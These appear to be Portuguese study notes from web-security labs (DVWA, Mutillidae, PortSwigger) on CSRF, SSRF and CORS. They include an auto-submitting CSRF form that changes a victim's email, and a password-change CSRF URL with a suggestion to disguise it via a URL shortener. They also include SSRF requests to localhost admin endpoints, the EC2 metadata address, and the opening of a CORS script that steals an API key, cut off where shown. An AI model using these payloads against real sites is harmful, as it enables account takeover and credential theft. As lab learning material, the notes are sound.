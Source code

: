 ```
      ! https://192.168.100.167/dvwa/vulnerabilities/csrf/?password_current=123456&password_new=123&password_conf=123&Change=Change# => Essa URL pode ser enviada para um encurtador de URL 
      * Ele consiste em uma série de caracteres aleatórios, gerados a cada formulário a ser preenchido pelo usuário que é enviado pelo servidor. Após o recebimento pelo usuário, o token é checado novamente. O servidor só aceita o POST caso o CSRF Token se provar igual ao enviado inicialmente. Diferentemente do session token e dos cookies, o CSRF Token não pode ser utilizado por um hacker mal intencionado.
!Cross-site request forgery:  
      * O cross-site request forgery, em português falsificação de solicitação entre sites, também conhecido como ataque de um clique ou montagem de sessão, é um tipo de exploit malicioso de um website, no qual comandos não autorizados são transmitidos a partir de um usuário em quem a aplicação web confia.
      * Cross-Site Request Forgery (CSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they’re currently authenticated. With a little help of social engineering (such as sending a link via email or chat), an attacker may trick the users of a web application into executing actions of the attacker’s choosing. If the victim is a normal user, a successful CSRF attack can force the user to perform state changing requests like transferring funds, changing their email address, and so forth. If the victim is an administrative account, CSRF can compromise the entire web application.
      https://security.love/CSRF-PoC-Genorator/ => colete essas informações no proxy do Burp Suite, você irá criar um arquivo eu deverá cadastrar um usuário de sua escolha (por exemplo) usando o header http
      ! No lab 1 de CSRF usamos o script: <html> <body> <form enctype="application/x-www-form-urlencoded" action="https://0a0600c3030c116bc0fe0af000d800af.web-security-academy.net/my-account" method="POST"> <input type="hidden" name="email" value="pwned@evil-user.net" /> </form> <script> document.forms[0].submit();</script></body> </html>

!Server-side request forgery:
      * In computer security, server-side request forgery (SSRF) is a type of exploit where an attacker abuses the functionality of a server causing it to access or manipulate information in the realm of that server that would otherwise not be directly accessible to the attacker.
      ! https://192.168.100.167/mutillidae/index.php?page=https://localhost/ => aqui pela URL conseguimos retornar o localhost do servidor a partir da minha máquina, confirando assim um SSRF
      ! http://localhost/admin/delete?username=carlos
      ! Tendo como exemplo o provedor de nuvem AWS, é bastante comum de se ver aplicações hospedadas em um Amazon Elastic Compute Cloud (Amazon EC2) e, com isso, atacantes acabam obtendo um meio de acessar credenciais de metadados de máquinas EC2 por meio do SSRF.
        No exemplo descrito na página Hacking The Cloud, é possível ver que a maioria das instâncias do EC2 possuem acesso ao serviço de metadados que contém informações, como endereço IP da instância, credenciais das IAM roles e o nome do security group e, esse acesso é feito por meio do endereço de IP 169.254.169.254.
        https://hackingthe.cloud/aws/exploitation/ec2-metadata-ssrf/
!CORS (Cross-origin resource sharing):
      * O CORS é uma política do HTTP de controle de compartilhamento de recursos entre sites, decidindo que origens serão aceitas ou rejeitadas. Resumidamente, temos o lado do cliente (por exemplo, o domínio do Github) que fará uma requisição para uma API (por exemplo, uma API do GitHub). Quando o compartilhamento de recursos é autorizado, costumamos ver no header "Access-Control-Allow-Origin:" seguido do domínio autorizado. Assim, a API determina que a origem é segura e a resposta é enviada com os recursos compartilhados. 
      ! Podemos executar um ataque do tipo CORS criando um exploit, ou script, que use CORS para obter algum dado do usuário que acessá-lo. Sendo tudo isso por meio de uma Engenharia Social, onde o(a) atacante pode elaborar um email ou outra artimanha que induzirá algum alvo acessar o exploit.

Lab 1 de CORS da PortSwigger:

Com isso, simulamos a construção de um script, ou exploit, que assim que o usuário acessar, por meio dos logs conseguimos ver sua API key por estar aberta a compartilhamento entre sites pela configuração falha do CORS.
<html>
<body>
<script>
   var xhrequest = new XMLHttpRequest();
   // Preencha com a URL do seu laboratorio aqui:
```